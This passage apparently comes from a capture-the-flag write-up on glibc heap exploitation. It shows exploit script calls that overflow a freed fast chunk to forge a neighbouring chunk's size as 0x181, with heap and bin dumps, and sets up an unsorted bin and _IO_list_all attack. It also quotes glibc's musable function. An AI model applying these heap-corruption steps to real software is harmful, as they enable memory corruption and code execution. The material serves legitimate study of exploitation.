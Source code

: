 Now, we'll free `chunk x` and request it back but this time we will cause an overflow to `chunk y`.

```python
# Free fast chunk
free(acc, key, 0)
```

```
(0x20)     fastbin[0]: 0x603000 --> 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x603210 (size : 0x20df0) 
       last_remainder: 0x6030b0 (size : 0x20) 
            unsortbin: 0x6030b0 (size : 0x20)
```

```python
# Get back the same fast chunk & 
# overwrite next chunk's size field
alloc(-10,  'F'*0x18 + p32(0x181), 'D'*8)  # 0
```

```
0x603000:	0x0000000000000000	0x0000000000000021 <-- chunk x back at it
0x603010:	0x4646464646464646	0x4646464646464646
0x603020:	0x4646464646464646	0x0000000000000181 <-- chunk y size overflow
0x603030:	0x4545454545454545	0x00007ffff7dd1c00
0x603040:	0x0000000000000000	0x0000000000000000
0x603050:	0x4545454545454545	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000000000
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000021 <-- unsorted chunk
0x6030c0:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x6030d0:	0x0000000000000020	0x0000000000000090 <-- chunk 1
```

We have successfully ovewritten `chunk y`'s size with the value **0x181**. This size is big enough to overwrite the unsorted chunk
at address `0x6030b0` and furthermore overwrite its BK pointer in order to perform the unsorted bin attack.
  
#### ~ Unsorted bin & _IO_list_all attack 

If we were to call edit on `chunk y`, `musable` wouldn't let us enter any bytes because of the `inuse(p)` check which would
let `musable` know that the chunk is actually free'd.

```c
static size_t
musable(void* mem)
{
  mchunkptr p;
  if (mem != 0) {
    p = mem2chunk(mem);
    if (chunk_is_mmapped(p))
      return chunksize(p) - 2*SIZE_SZ;
    else if (inuse(p))
      return chunksize(p) - SIZE_SZ;
  }
  return 0;
}
```